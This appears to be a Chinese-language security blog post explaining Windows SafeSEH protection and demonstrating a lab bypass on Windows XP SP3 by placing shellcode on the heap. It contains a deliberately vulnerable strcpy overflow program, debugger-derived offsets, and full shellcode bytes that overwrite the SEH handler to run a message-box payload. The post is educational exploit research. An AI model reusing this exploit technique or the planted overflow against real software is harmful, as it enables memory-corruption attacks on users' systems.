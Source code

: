 ```yaml
---
layout: post
title: "使用堆绕过SafeSEH机制"
author: "kumqu"
---
```


## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 

<img src="./_image/2019-8-2/1.PNG" alt="1" style="zoom:75%;" />

​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:

![2](./_image/2019-8-2/2.PNG)

​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:

![3](./_image/2019-8-2/3.PNG)

​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:

![4](./_image/2019-8-2/4.PNG)

​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:

<img src="./_image/2019-8-2/5.PNG" alt="5" style="zoom:80%;" />

​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

